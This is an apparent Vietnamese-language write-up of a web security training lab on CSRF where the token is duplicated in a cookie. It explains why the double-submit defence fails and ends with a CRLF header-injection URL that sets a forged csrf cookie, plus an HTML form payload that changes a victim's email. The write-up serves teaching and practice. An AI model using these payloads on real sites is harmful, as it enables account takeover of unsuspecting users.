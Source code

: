 Trong một biến thể tiếp theo về lỗ hổng trước đó, một số web app
không duy trì bất kỳ bản ghi nào của các tokens đã được phát hành, 
mà thay vào đó sao chép mỗi tokens trong một cookie và request param. 
Khi request tiếp theo được xác thực, web app chỉ cần xác minh rằng 
tokens được gửi trong request param khớp với giá trị được gửi trong cookie. 
Điều này đôi khi được gọi là phòng thủ "double submit" đối với CSRF 
và được ủng hộ vì nó đơn giản để thực hiện và tránh sự cần thiết cho bất kỳ 
server-side state nào:

![img](https://imgur.com/Put9JGt.png)

Trong tình huống này, kẻ tấn công lại có thể thực hiện một cuộc tấn công CSRF 
nếu trang web chứa bất kỳ function setting-cookie nào. 
Ở đây, kẻ tấn công không cần phải có được token hợp lệ của riêng họ. 
Họ chỉ đơn giản là phát minh ra một token 
(có lẽ ở định dạng cần thiết, nếu điều đó đang được kiểm tra), 
tận dụng hành vi setting cookie để set cookie của họ 
vào trình duyệt của nạn nhân và cung cấp token cho nạn nhân 
trong cuộc tấn công CSRF của họ.

# Lab: CSRF where token is duplicated in cookie
![img](https://imgur.com/ERFO6jO.png)

### Web page:

![img](https://imgur.com/fYiX0Ry.png)

Truy cập account wiener được cấp sẵn: 

![img](https://imgur.com/U4hZe9n.png)

Update email và Intercept request này trong Burp Suite: 

![img](https://imgur.com/18sCbb8.png)

--> csrf trong cookie giống với csrf param.

Thử thay cặp giá trị này thành 1 giá trị ngẫu nhiên: 

![img](https://imgur.com/DmDtHgd.png)

Cặp giá trị được thay thành "fake" và email vẫn được thay đổi!

Tiếp tục tạo payload html, để inject csrf cookie cần 1 URL như sau: 

*/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None*

Như vậy html payload sẽ như sau: 

    <form action="https://0acc00600485d43ce0bf9248005600f2.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="hidden" name="csrf" value="fake" />
      <input type="submit" value="Submit request" />
    </form>
